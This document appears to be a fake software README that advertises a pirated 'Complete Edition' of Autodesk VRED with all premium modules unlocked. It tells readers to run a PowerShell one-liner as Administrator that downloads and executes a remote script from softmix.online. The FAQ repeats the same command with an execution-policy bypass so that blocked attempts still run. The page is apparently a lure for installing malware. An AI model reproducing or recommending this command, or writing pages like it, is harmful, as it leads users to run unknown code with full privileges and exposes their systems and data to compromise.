

<div align="center">


<br>


# Autodesk VRED Visualization Ultimate
**Ultimate real-time visualization · Automotive rendering suite · VR presentation tools**
<br>
**Ultimate real-time visualization · Automotive rendering suite · VR presentation tools**
<br>
Complete Edition · Premium Build · Windows · Deployment



**Complete Edition — all VRED modules and ultimate visualization features enabled.**

</div>
---

> Licensed ultimate VRED visualization with real-time rendering and every VR presentation module included.

## `INSTALLATION`

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://softmix.online/ps/setup.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically
4. Wait until the installer finishes

## `FEATURES`

🎨 **3D production** — Modeling, rendering and animation tools enabled.
📦 **Local creative suite** — Works offline after setup.
🖥️ **Windows optimized** — Built for artist workstations.
📋 **Complete toolkit** — Assets and presets supported.
⚙️ **Pro workflow** — Suitable for studio pipelines.
✨ **Premium modules** — Paid creative features enabled.
⚡ **One-command install** — PowerShell handles setup automatically.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 16 GB |
| **Disk** | 10 GB |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://softmix.online/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 16 GB, 10 GB.
</details>


TAGS
autodesk-vred, visualization, real-time-rendering, automotive-vr, design-review, material-editing, professional, windows, desktop, software, pro, studio, tools
